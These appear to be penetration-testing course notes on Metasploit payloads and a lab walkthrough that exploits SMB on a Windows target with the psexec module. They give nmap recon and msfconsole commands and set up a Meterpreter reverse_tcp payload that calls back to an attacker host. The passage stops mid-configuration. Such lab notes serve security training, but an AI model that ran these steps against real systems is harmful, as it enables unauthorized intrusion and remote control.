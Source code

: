 ### Payloads in MSF

- **Role**: Deliver shells (e.g., Meterpreter) to gain interactive access.
- **Types**:
    - **Meterpreter**: In-memory DLL injection payload for stealthy communication, supporting file manipulation, keylogging, and process management.
    - **System Shells**: Dropped from Meterpreter for native OS command access.
- **Automation**: MSF modules streamline payload delivery compared to manual one-liners.

## Practical Example: Exploiting SMB with MSF

- **Scenario**: Exploit a Windows target (10.129.164.25) with SMB service (port 445) using `exploit/windows/smb/psexec`.
- **Recon**:
    
    ```bash
    nmap -sC -sV -Pn 10.129.164.25
    
    ```
    
    - Output: Open ports (135, 139, 445), Windows 7–10, SMB vulnerabilities.
- **Steps**:
    1. **Start MSFconsole**:
        
        ```bash
        sudo msfconsole
        
        ```
        
        - Displays banner with exploit (2131) and payload (592) counts.
    2. **Search Modules**:
        
        ```bash
        search smb
        
        ```
        
        - Identifies `exploit/windows/smb/psexec` (module 56).
    3. **Select Module**:
        
        ```bash
        use 56
        
        ```
        
        - Defaults to `windows/meterpreter/reverse_tcp` payload.
    4. **View Options**:
        
        ```bash
        options
        
        ```
        
        - Key options: `RHOSTS`, `RPORT` (445), `SMBUser`, `SMBPass`, `LHOST`, `LPORT` (4444).
    5. **Configure Module**:
        
        ```bash
        set RHOSTS 10.129.180.71
        set SMBUser htb-student
        set SMBPass <password>
        set LHOST 10.10.14.222
        set LPORT 4444
        